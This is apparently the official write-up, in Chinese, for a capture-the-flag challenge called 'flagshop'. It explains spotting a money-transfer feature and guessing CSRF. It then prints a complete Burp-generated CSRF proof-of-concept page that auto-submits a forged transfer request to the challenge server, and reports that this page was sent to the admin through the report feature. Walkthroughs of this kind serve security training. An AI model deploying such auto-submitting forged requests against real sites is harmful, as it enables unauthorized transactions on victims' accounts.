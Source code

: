 # flagshop 官方wp

简单地注册登录之后,发现有个买flag的选项,钱不够,发现有个转账功能

想到Longlone矿业无限公司,admin肯定有很多钱,根据重重提示猜测考点可能是CSRF

使用burp抓转账包,稍微修改得到exp

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://173.82.206.142:8005/transfer.php" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="target" value="longlone" />
      <input type="hidden" name="money" value="100000000000" />
      <input type="hidden" name="messages" value="6666" />
      <input type="submit" value="Submit request" />
    </form>
  <script language=javascript>
  setTimeout("document.forms[0].submit()",1000)
  </script>
 </body>
</html>
```

提交到报告中,拿到一堆钱,直接买flag